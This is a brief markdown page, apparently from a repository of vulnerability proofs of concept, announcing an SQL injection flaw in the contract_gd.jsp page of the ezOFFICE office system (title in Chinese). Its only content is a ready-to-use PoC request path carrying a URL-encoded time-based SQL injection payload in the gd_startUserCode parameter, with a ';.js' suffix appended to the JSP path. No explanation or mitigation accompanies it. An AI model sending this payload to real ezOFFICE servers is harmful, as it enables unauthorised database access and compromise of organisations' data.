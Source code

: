 ## 万户ezOFFICE-contract_gd.jsp存在SQL注入漏洞


## poc
```
/defaultroot/modules/subsidiary/contract/contract_gd.jsp;.js?gd=1&gd_startUserCode=1%27%3Bwaitfor%20delay%20%270%3A0%3A5%27--
```
